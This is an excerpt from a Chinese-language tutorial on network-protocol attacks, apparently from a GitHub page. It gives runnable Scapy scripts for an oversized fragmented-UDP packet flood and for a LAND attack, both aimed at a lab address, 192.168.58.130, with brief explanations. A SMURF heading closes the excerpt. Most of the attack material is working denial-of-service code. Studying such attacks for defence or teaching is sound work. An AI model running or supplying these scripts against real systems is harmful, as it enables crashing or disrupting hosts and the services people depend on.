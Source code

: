 
#### 根据规律写代码： ####

---

	from scapy.all import *
	junkData = "A"*1400                    #这里取1400，因为如果是1480的话，会有很神奇的问题，scapy会帮我们加多几个字节，但是后面的包破坏队形，所以给了个缓存长度，设置为1400
	data = IP()/UDP()/junkData
	data[UDP].sport = 80
	data[UDP].dport = 80
	data[IP].dst = "192.168.58.130"
	data[IP].src = get_if_addr("eth0")
	data[IP].id = 1                        #id要一样
	
	for i in range(60):
	    data[IP].flags = 1                 #scapy中，flags = 1就是设置MF位（更多分片位）为1
	    if i == 0:
	        data[IP].frag = 0              #scapy中，frag是偏移值，第一个分片包偏移值为0
	    else:
	        data[IP].frag = ((i*1400) / 8)    #偏移值为包体大小 / 8
	    send(data)
	data[IP].frag = (60*1400) / 8
	data[IP].flags = 0                        #最后一个包，MF位为0
	send(data)


## LAND ##

#### 原理： ####

---

某些老系统，当遇到具有相同源地址和相同目标地址（都指向受害者本机），甚至源端口和目的端口都是相同的，它会循环发送这个数据包直到系统崩溃

#### 代码： ####

---

	from scapy.all import *
	
	packet = IP()/TCP()
	packet[IP].src = packet[IP].dst = "192.168.58.130"
	packet[TCP].sport = packet[TCP].dport = 80
	send(packet)

![](./NetprotocolAttack/10.png)

## SMURF ##
